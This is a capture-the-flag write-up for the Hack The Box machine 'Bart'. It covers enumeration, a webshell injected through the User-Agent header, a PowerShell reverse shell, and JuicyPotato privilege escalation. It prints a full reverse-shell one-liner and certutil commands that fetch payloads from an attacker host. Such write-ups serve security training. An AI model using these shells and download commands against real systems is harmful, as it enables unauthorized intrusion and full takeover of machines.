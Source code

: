 # HTB - Bart

#### Ip: 10.10.10.81
#### Name: Bart
#### Difficulty: Medium

----------------------------------------------------------------------

Bart.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.81 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-06 12:14 CDT
Nmap scan report for 10.10.10.81
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.70 seconds
```

Ok looks like just port 80 is open here. Lets add forum.bart.htb to our `/etc/hosts` file.

Taking a look at the webpage we find a company page:

site.png

taking a look at the page source we also find a comment left behind that includes a name:

name.png

Because port 80 redirected to forum.bart.htb I wondered if there were more domains we could fuzz. Lets try using wfuzz:

wfuzz.png

Ok cool, looks like there is also a monitor.bart.htb- lets add that to `/etc/hosts` as well.

This leads us to a server monitor page. 

monitor.png

Because we've found the username harvey, I tried some random passwords and got lucky logging in with the credentials harvey:potter, which we found in the page source comment on forum.bart.htb. 

login.png

Looking in the Severs section of the page we find yet another domain to add to `/etc/hosts`

Navigating to the site we find another login page:

dev.png

Trying the credentials harvey:potter again we get a verbose error message `The Password must be at least 8 characters`. But if we try a user we know won't exist like testing:testing123 we get the message `Invalid Username or Password`. This leads me to believe that the user harvey is a valid username here. 

Trying some more directory scanning we find the page http://internal-01.bart.htb/simple_chat/register_form.php. Navigating to the page we get the message `The page cannot be displayed because an internal server error has occurred.`

Searching Google for simple_chat/register_form.php I find this GitHub page which contains source code for the page. https://github.com/magkopian/php-ajax-simple-chat/blob/master/simple_chat/register.php

gh.png

Cool, looks like the page wants two fields uname and passwd. Lets try creating a new user using curl and making a POST request to /register.php

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=testing&passwd=password123"
```

Nice, that seemed to work. Lets return to the login page and authenticate.

in.png

Awesome, that worked! 

Taking a look at the source code we find an interesting link and function:

source.png

Capturing this in Burp and playing around with it a bit, I find that the User Agent field is vulnerable. I can inject a webshell into the field and get execution on the box:

php.png

whoami.png

Heading over to https://www.revshells.com/ and grabbing a PowerShell reverse shell and URL encoding it, I can set up a NetCat listener and get a reverse shell back:

burp.png

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.72] from (UNKNOWN) [10.10.10.81] 50147
whoami
nt authority\iusr
PS C:\inetpub\wwwroot\internal-01\log> hostname
BART
PS C:\inetpub\wwwroot\internal-01\log>
```

### Privilege Escalation

At this point, I still don't seem to have access to the user.txt flag, so let's try to escalate privileegs to administrator.

Running `whoami /all` I see that `SeImpersonatePrivilege` is enabled. This means we may be able to try something like juicy potato to escalate privileges. 

First we'll need to create a file called shell.bat:

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.72',444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Then we'll need to transfer to the target the shell.bat file as well as juicy potato:

```text
certutil -urlcache -split -f "http://10.10.14.72/shell.bat"

certutil -urlcache -split -f "http://10.10.14.72/JuicyPotato.exe"
```

```text
PS C:\TEMP> dir


    Directory: C:\TEMP


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----       06/09/2023     19:24         347648 JuicyPotato.exe               
-a----       06/09/2023     19:23            522 shell.bat 
```

Next we'll set up a NetCat listener and run:

```text
C:\TEMP\JuicyPotato.exe -l 444 -p C:\TEMP\shell.bat -t * -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```

And we will catch a shell back as nt authority\ system!

jp.png

All we have to do now is grab the user.txt and root.txt flags:

flags.png

Thanks for following along!

-Ryan

----------------------------------------